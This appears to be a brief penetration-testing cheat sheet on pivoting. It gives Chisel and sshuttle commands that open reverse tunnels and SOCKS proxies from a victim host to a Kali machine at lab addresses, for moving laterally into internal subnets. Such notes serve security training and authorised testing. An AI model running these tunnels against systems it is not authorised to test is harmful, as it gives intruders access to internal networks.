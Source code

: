 # Pivoting/Port Forwarding

## Chisel

```python
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim

# on kali
chisel server -p 8000 --reverse
# on victim
chisel client <kali IP>:8000 R:socks
# on kali (choose one)
socks4 127.0.0.1 9050 # more accurate but slower
socks5 127.0.0.1 1080 # faster but less accurate (might miss ports w/ nmap)
prepend further commands with proxychains
```

## SSHuttle

```python
# single pivot
sudo sshuttle -r sean@10.11.1.251 10.1.1.0/24
# double pivot
sudo sshuttle -r sean@10.11.1.251 10.1.1.0/24
sudo sshuttle -r mario@10.1.1.1:222 10.3.3.0/24
```

{% embed url="https://pentest.coffee/active-directory-lateral-movement-and-post-exploitation-cheat-sheet-3170982a7055" %}
